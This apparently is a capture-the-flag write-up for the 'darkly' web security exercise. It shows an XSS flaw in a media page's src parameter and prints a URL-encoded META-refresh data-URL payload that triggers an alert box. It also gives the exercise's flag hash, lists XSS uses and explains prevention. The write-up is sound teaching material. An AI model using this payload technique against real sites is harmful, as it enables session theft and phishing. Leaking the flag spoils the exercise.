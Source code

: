 # CROSS_SITE_SCRIPTING_(XSS)

## 🏴 Flag
```
928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d 
```

## 📌 Extract

Page: [http://{IP}/](http://{IP}/)  
Inspect and focus on`<href>`

```html
<a href="?page=media&amp;src=nsa"><img src="images/nsa_prism.jpg" alt=""></a>
```

The URL indicates a request to display a media content in a page. For exemple we could show the index.php page in the media page :
```html
http://{IP}/?page=media&src=index.php
```

> Tring a Cross Site Scripting attack (XSS) to execute `<script>alert('XSS');</script>`

```html
http://{IP}/?page=media&src=%3CMETA%20CONTENT=%220;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+%22%3E
```

`http://{IP}/`: Base address of the local server.  

`?page=media`: The page parameter loads the "media" component.  

`&src=`: Contains malicious, URL-encoded code.  

`%3C` and `%3E`: Encoded < and > characters for HTML tags.  

`META CONTENT="0;url="`: Redirects the page after 0 seconds to a specified URL.  

`data:text/html;base64,`: Redirects to base64-encoded HTML content.  

`PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+`: Decodes to `<script>alert('XSS');</script>`, triggering an alert in the browser.  

## 🎯 Use

**XSS (Cross-Site Scripting)** allows an attacker to **inject malicious JavaScript** into a webpage, which is executed in the victim's browser, often without their knowledge.

- **Stealing cookies or tokens** to hijack sessions.

- **Manipulating content** to deceive users or display fake forms.

- **Redirecting** to malicious sites for phishing or malware.  

- **Executing** unauthorized actions under the victim's privileges.  

## 🔒 Prevention

1. **Validating inputs** to filter out malicious content.  

2. **Escaping HTML content** to treat user data as plain text, not executable code.  

3. Implementing a **Content Security Policy (CSP)** to restrict script sources.  

4. Using **secure frameworks** that automatically sanitize data.  

5. Limit Access with **`HttpOnly`**, prevents cookie access via JavaScript, reducing XSS attack risks.

6. Limit Access with **`Secure`**, ensures the cookie is only sent over HTTPS, preventing interception in MITM (Man In The Middle) attacks. 

## 📚 Documentation

[owasp.org (xss)](https://owasp.org/www-community/attacks/xss/)  
[vaadata.com (failles-xss)](https://www.vaadata.com/blog/fr/failles-xss-principes-types-dattaques-exploitations-et-bonnes-pratiques-sec)

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#readme)

